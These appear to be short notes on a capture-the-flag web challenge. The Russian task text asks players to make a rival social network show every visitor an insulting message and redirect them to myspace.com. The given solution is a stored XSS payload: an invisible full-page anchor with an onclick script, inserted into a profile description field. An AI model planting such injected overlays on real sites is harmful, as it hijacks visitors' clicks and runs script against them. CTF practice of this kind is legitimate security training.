 Goal: to run any javascript for all users

----
Здравствуйте, вас приветствует компания MySpace. Наши конкуренты разработали социальную сеть, которая грозит нашей компании разорением. Пришло время прибегнуть к "грязной игре" и уничтожить сайт конкурентов. Ваша задача сделать так, чтобы все пользователи при заходе либо любом взаимодействии с сайтом конкурентов сначала читали нелицеприятное сообщение о сайте конкурентов, а затем в новом окне (либо вкладке) оказывались на нашем сайте (myspace.com).
Внимание! Для использования сайта вам необходимо к предложенной ссылке добавить шестнадцатисимвольный идентификатор команды.
Решение задания проверяется организатором. По всем вопросам обращайтесь к организаторам.
----

insert into short description content like:
<a onclick="alert('drg');" style="cursor: default; display: block; z-index: 100000; opacity: 0; position: fixed; top: 0px; left: 0; width: 100%; height: 100%; background-color: red;"> </a>

http://www.bioinformatics.org/phplabware/forum/viewtopic.php?id=164
